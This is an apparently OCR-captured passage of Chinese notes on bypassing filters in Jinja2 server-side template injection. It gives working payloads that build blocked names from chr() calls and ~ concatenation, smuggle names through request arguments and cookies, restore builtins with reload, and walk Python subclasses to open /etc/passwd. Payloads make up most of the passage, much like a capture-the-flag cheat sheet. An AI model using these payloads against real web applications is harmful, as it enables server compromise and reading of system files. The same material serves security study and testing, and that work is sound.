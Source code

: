     利用:

    ```jinja2
    {% set chr=url_for.__globals__['__builtins__'].chr %}//设置chr为chr()函数
    {""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}//%2b为+
    ```

    ![image-20220331143456337](./ssti/ssti_chr.png)

*   **利用~拼接(jinja2)**

    ```jinja2
    {%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
    ```

*   **request绕过**

    利用request获取请求的信息，从而绕过

    ```
    request.args.name  //GET
    request.cookies.name  //cookie
    request.headers.name  //head
    request.values.name  //	POST
    request.form.name    //表单
    ```

    以`GET`方式，利用`request.args`传递参数为例

    ```jinja2
    {{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd
    ```


*   ### reload

    该函数可以用来恢复被删除的函数

    用来重载`builtins`恢复函数

    `reload(__builtins__)`

*   全角数字替代正常数字

    yu22x师傅的半角转全角代码

